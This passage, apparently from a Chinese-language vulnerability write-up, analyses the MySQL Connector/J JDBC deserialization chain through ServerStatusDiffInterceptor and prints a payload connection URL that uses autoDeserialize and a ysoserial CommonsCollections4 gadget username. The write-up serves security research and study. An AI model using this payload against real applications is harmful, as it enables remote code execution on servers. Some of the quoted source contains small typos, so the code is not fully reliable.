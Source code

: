 }` 

调用至com.mysql.jdbc.Util.resultSetToMap(),至此调用链与detectCustomCollations链中com.mysql.jdbc.Util.resultSetToMap()一致，最后调用至getObject()方法，最后进行反序列化。

#### [payload](#toc_payload_4)

`String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections4_calc";
String username = "yso_CommonsCollections4_calc";
String password = "";
Class.forName("com.mysql.jdbc.Driver");
conn = DriverManager.getConnection(url,username,password);
String sql = "select database()";
PreparedStatement ps = conn.prepareStatement(sql);
//执行查询操作，返回的是数据库结果集的数据表
ResultSet resultSet = ps.executeQuery();` 

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/51be2066-3ce9-4928-88ed-8705712a416e.png?raw=true)
](https://storage.tttang.com/media/attachment/2022/12/30/9869a88f-8c7c-4203-9a1d-0406d57fd91b.png)

### [5.1.11-5.x.xx](#toc_5111-5xxx)

调用至com.mysql.jdbc.ConnectionImpl构造方法（mysql-connector-java 5.1.18）

`public ConnectionImpl(String hostToConnectTo, int portToConnectTo, Properties info, String databaseToConnectTo, String url) throws SQLException {
    ...
    try {
    this.dbmd = getMetaData(false, false);
    调用initializeSafeStatementInterceptors()方法
    initializeSafeStatementInterceptors();
    //调用至createNewIO()方法
    createNewIO(false);
    unSafeStatementInterceptors();
    } catch (SQLException ex) {
    cleanup(ex);
    ...
}` 

调用至com.mysql.jdbc.ConnectionImpl#initializeSafeStatementInterceptors()方法（mysql-connector-java 5.1.18），此方法解析连接参数中statementInterceptors参数并添加相应类至当前对象statementInterceptors属性

`public void initializeSafeStatementInterceptors() throws SQLException {
    this.isClosed = falcse;
    //此次声明unwrappedInterceptors为数据库连接url中statementInterceptors连接参数即com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor
    List unwrappedInterceptors = Util.loadExtensions(this, this.props, this.getStatementInterceptors(), "MysqlIo.BadStatementInterceptor", this.getExceptionInterceptor());
    this.statementInterceptors = new ArrayList(unwrappedInterceptors.size());
    //遍历unwrappedInterceptors
    for(int i = 0; i < unwrappedInterceptors.size(); ++i) {
        //interceptor为ServerStatusDiffInterceptor
        Object interceptor = unwrappedInterceptors.get(i);
        //目标类实现StatementInterceptor此处为true进入if，
        if (interceptor instanceof StatementInterceptor) {
            //此处为空进入else
            if (ReflectiveStatementInterceptorAdapter.getV2PostProcessMethod(interceptor.getClass()) != null) {
                this.statementInterceptors.add(new NoSubInterceptorWrapper(new ReflectiveStatementInterceptorAdapter((StatementInterceptor)interceptor)));
            } else {
                //进行添加，添加V1toV2StatementInterceptorAdapter((StatementInterceptor)interceptor))
                this.statementInterceptors.add(new NoSubInterceptorWrapper(new V1toV2StatementInterceptorAdapter((StatementInterceptor)interceptor)));
            }